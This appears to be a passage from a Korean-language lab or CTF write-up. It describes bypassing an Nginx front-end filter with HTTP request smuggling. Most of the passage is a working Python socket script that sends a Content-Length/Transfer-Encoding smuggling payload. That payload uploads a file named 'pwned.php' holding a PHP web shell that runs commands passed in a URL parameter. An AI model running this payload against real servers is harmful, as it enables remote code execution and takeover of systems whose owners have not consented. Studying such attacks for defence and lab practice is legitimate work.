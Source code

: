 **성공 이유**:
1. Nginx는 `POST /`만 보고, smuggled 요청의 내용을 파싱하지 못함
2. `system()`, `shell.php` 등의 패턴이 Nginx의 검사를 우회
3. Apache가 직접 받아서 처리

### 방법 2: 수동 소켓 전송

```python
#!/usr/bin/env python3
import socket

sock = socket.socket()
sock.connect(('localhost', 9000))

# Smuggling 페이로드
payload = b"""POST / HTTP/1.1\r
Host: localhost:9000\r
Content-Length: 500\r
Transfer-Encoding: chunked\r
\r
0\r
\r
POST /api/submit_inquiry.php HTTP/1.1\r
Host: localhost:9000\r
Content-Type: multipart/form-data; boundary=----WebKitBoundary\r
Content-Length: 300\r
\r
------WebKitBoundary\r
Content-Disposition: form-data; name="name"\r
\r
smuggled\r
------WebKitBoundary\r
Content-Disposition: form-data; name="email"\r
\r
test@test.com\r
------WebKitBoundary\r
Content-Disposition: form-data; name="phone"\r
\r
010-1234-5678\r
------WebKitBoundary\r
Content-Disposition: form-data; name="category"\r
\r
technical\r
------WebKitBoundary\r
Content-Disposition: form-data; name="subject"\r
\r
test\r
------WebKitBoundary\r
Content-Disposition: form-data; name="message"\r
\r
test\r
------WebKitBoundary\r
Content-Disposition: form-data; name="image"; filename="pwned.php"\r
Content-Type: image/jpeg\r
\r
<?php system($_GET["x"]); ?>\r
------WebKitBoundary--\r
"""

sock.sendall(payload)
print(sock.recv(4096))
sock.close()
```

---